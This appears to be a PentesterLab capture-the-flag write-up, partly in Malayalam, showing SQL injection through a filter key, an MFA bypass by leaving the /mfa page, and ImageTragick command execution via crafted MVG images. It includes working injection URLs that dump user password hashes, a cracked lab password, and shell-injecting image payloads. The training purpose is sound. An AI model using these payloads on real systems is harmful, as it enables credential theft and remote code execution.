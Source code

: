 ## Introduction
-->This exercise covers how to gain access to an administration interface using SQL injection followed by how to get command execution using ImageTragick
-->This course details the exploitation of a SQL injection in a web application and how an attacker can use it to gain access to the administration pages after bypassing the Multi-Factor Authentication. Then, using this access, the attacker will be able to gain code execution on the server using a vulnerability in ImageMagick.
-->The attack is divided into 3 steps:
-   Find the SQL Injection to retrieve users' password and crack them
-   Bypass the Multi-Factor Authentication
-   Gain code execution

## The SQL Injection
-->When you visit the main page, the application allows you to filter the files based on the `user_id` using the following URL: `?filter[user_id]=1` for example. Here the vulnerability is located in the key (`user_id`) instead of in the value (`1`). The developer trusts the key and integrates it in the SQL query without any escaping. Then the application properly uses prepared-statement to add the value. You should be able to exploit this issue using a simple `UNION SELECT` exploitation like you saw in the [From SQL injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/) exercise.

## Bypassing the Multi-Factor Authentication
-->Bypassing the MFA in this challenge is fairly trivial. The application redirects you to the MFA page after logging in but doesn't prevent you from visiting other pages. Therefore, you can just go to any other pages in the application to bypass the MFA.

## Gaining code execution/ImageTragick
-->Once you bypassed the MFA, you should have access to the management interface. In this interface, you are able to see a list of files and download them. If you upload a file, you should see that a prefix is added to the file's name and you have limited room to get code execution. Fortunately, you should be able to gain code execution using the resizing functionality.
-->The resizing functionality relies on a vulnerable version of ImageMagick and calls the tool `convert`. If you want to read more about this vulnerability, you can check the [ImageTragick's website](https://imagetragick.com/).
-->The exploitation relies on creating a malicious MVG image containing the following malicious code (for example to run `ls -la`):
```r
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|sleep 10")'
pop graphic-context
```
-->However, the website only let you upload `.jpg` and `.png` files. If you put the code above in a `.jpg` and `.png` the exploitation will still work as `convert` tries to guess the file type based on its content, not its extension.

## Conclusion
-->This exercise showed you how to manually detect and exploit SQL injection to gain access to users' password. Once the passwords are cracked and the MFA bypassed, you get access to the management pages. In this "Trusted zone", more functionalities are available which may lead to more vulnerabilities.

# Video Explanation
-->lab open chyuka enit athil kanuna link il ethengilum onnil click chyuka apol namal ee url ilek pokum->ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id]=1
-->ivide 1 enna sthalath namal test chyanam liek ' " 1-1 1-0  agnane.. but namuk error onum kanunila.so namal ee [user_id] enna sthalath test chyam liek [user_id']=1  enn koduth send chyumbol error verunund.ini onukodi single qoute idumbozhum aa error thane kanikunath
-->ini namuk [user_id=1--+]=1  enn kodukam. = sign url encode chyanam ie, %3d ie,  [user_id%3d1--+]=1
-->ini ee [user_id=1--+] ithile 1 mati 2 ,3,  enoke itt koduth send chyuka
-->ini namuk ivide union select chyam.athin mumb ethra columns unden ariyanam so orderby use chyam
->http://ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id%3d2%20order%20by%207--+]=1 
-->ipol namuk manasilayi 7 columns aan ullathen ok
-->union select chyth column vilikumbol 1,2,3,4  enn kodukumbol aakunilengil null,null,null,null  enn koduth nokam or 1,1,1,1  enn koduthnokam ok.ingane chyunath enthinanenal oru column thane matoru column ne reference pole aayirikum undavuka apol namla 1,2,3,4,5... ingane ital chelapo aakilayirikum
-->so union select namal 1,1,1,1,..enikgane aanu chyunthath :
->http://ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id%3d2%20union%20select%201,1,1,1,1,1,1%20from%20users--+]=1
-->ipol namuk page il error onum kanikunila.ivide namal users enna table il ninuman nokunath.ini namuk ee numbers il ethil ittal aan namak ath control chyan patunath ie, page il reflect chyuanath enn nokan.
-->so ivide randamathe 1 il namal 12 enn idumbol ath page il reflect chyunund.so avide namuk table il ulla contents dump chyan nokam ok
-->table il email und password um und.namuk aanengil aake oru column control chyan patu.so oru column il thane onil kooduthal result venamengil concat use chyam.database in anusarich ith matam undakum ->concat(email,":",password) enn koduthal mathi ok so :
->http://ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id%3d2%20union%20select%2011,concat(email,%22:----:%22,password),1,1,1,1,1%20from%20users--+]=1
-->ipol namuk admin tem athupole pentesterlab intem passowrd kitum 
```
[admin@pentesterlab.com:----:e52594d4f10a8acbcc1da8adee2056fc25738c3a59b24ea48c2e50fff519b9d8](http://ptl-a554e45a-f6c8cb03.libcurl.so/files/11) shared by [admin@pentesterlab.com](http://ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id]=1)

[user@pentesterlab.com:----:da976b0817733c0f4efd3ca74ac5c7652733bd2610b2d08877f2a397fc8ac7f4](http://ptl-a554e45a-f6c8cb03.libcurl.so/files/11) shared by [admin@pentesterlab.com](http://ptl-a554e45a-f6c8cb03.libcurl.so/?filter[user_id]=1)                   //hackme
```
-->so ee rand hash individual aayi eduth google il search chyuka.adminte search chythapol onum kiteela.so user@pentesterlab inte search chythapol namuk password kitunund online il ->hackme
-->so ee credentials vech namuk sign in chyam ok 
-->username:user@pentesterlab.com and password:hackme kodukuka apol oru MFA code chodikum ath undengile namuk account il keran patu
-->browser il /mfa undegil browser ine force chyth vere path ilek  pokan nokuka.browser il strict mfa undengil namal nere thirich /mfa yilek thane verum ok. ie, `/mfa  enn ullath aa mfa remove chyth nokuka`. 
->http://ptl-a554e45a-f6c8cb03.libcurl.so/mfa   enn ullathil mfa remove chythapol namual account il keri ok
-->accout il namuk upload chyan oke ulla option und. so go to "your files"  from there click new file . ivide ninum namuk images oke upload chyam.so aa image il namal malicious code idanam :
```r
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|sleep 10")'
pop graphic-context
```
-->ee code ittit .png format il oru file il save chyanam ie,image.png ok
-->ini namal new file il click chyth ee file application il upload chyanam.upload chyumbol namuk kanam 10 sec sleep chyunila.peten thane upload aakunund
-->but applicaiton il nokiyal kanam namal upload chyuna image inte oru thumbnail aakuna option um athinte koode undakum.so namal ath click chyhtal kanam namuk 10 kazhinjan athinte thumnail aakunath.so namal ini ee sleep enna cmd mati namuk venda command itt chyam ok. ivide uuid koduth chyhtal namal lav solve chythu ok ie,
```r
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|/usr/local/bin/score 66d1486a-6571-4069-a67b-c4a70a99798d")'
pop graphic-context
```
